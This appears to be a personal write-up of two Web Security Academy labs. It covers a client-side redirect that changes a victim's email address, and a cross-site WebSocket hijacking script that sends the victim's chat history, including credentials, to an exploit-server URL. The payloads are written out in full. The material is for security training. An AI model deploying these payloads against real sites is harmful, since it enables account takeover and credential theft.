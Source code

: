 - To solve this lab, We have to make use of DOM redirect 
- When You make a comment, The site automatically redirect to another page after 3 seconds
- Here is the redirect of the link: post/comment/confirmation?postId=6
- This PostId can be reconstructed like this post/comment/confirmation?postId=my-account
- Then we have not found error
- Now we can do something like this : post/comment/confirmation?postId=../my-account/
- It works, Now, It redirects back to my account
- Now we can attempt to change the email
- post/comment/confirmation?postId=../my-account//change-email?email=hello%40text.com&submit=1
- So we can deliver the payload like this
```
<script>
window.location="https://0ada006904d7f8cc809c215000890045.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=evileye%40text.com%26submit=1"
</script>
```

# Lab: SameSite Strict bypass via sibling domain
- This lab can only be Done when you understand websocket vulnerabilities, coming back to solve this when I understand that topic.
- Now I can solve the lab 
- This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). 
- To solve the lab, log in to the victim's account.
- To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. 
- The chat history contains the login credentials in plain text.

# Solution
- Browse through the app and check request in burp suite
- Read through request including javascript files
- Read even the request and response headers
- You will notice that the websocket request is vulnerable to csrf
- Try the below request saved to burp collaborator
```
<script>
    const socket = new WebSocket("wss://0aeb00fc034ffebc809c2bef00d10010.web-security-academy.net/chat");

    socket.onopen = function() {
    // Send "Ready" when connection is established
    socket.send("READY");
    };

    socket.onmessage = function(event) {
    fetch(
        "https://exploit-0ac7004a036efe1e80532aa8019f002d.exploit-server.net/exploit?message=" + event.data
    )
    };   
</script>
```
